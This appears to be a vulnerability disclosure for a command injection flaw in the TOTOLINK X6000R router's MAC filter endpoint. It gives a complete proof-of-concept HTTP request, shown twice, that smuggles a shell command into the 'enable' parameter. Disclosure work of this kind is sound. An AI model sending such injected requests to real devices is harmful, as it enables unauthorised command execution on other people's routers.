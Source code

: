 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is "/advance/macf.html".

# Details
Web front-end interface:
![image](https://github.com/user-attachments/assets/f9ccab3a-c2ce-4538-9cda-8239e1243429)


Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```
![image](https://github.com/user-attachments/assets/682bf61b-55b1-47fd-aab2-b73f4b15ebac)

![image](https://github.com/user-attachments/assets/b4c8f847-8dd0-4b1b-b562-6b88ed81dd86)



# PoC
Capture the packet and see the enable parameter, and do a blind test directly:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=BB19D84941E95CCC HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 72
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/macf.html?token=BB19D84941E95CCC
Priority: u=1

{"mode":"1","addEffect":"0","enable":"`ls >/web/poc_macf.txt`","topicurl":"setMacFilterRules"}
```
![image](https://github.com/user-attachments/assets/682bf61b-55b1-47fd-aab2-b73f4b15ebac)

![image](https://github.com/user-attachments/assets/b4c8f847-8dd0-4b1b-b562-6b88ed81dd86)
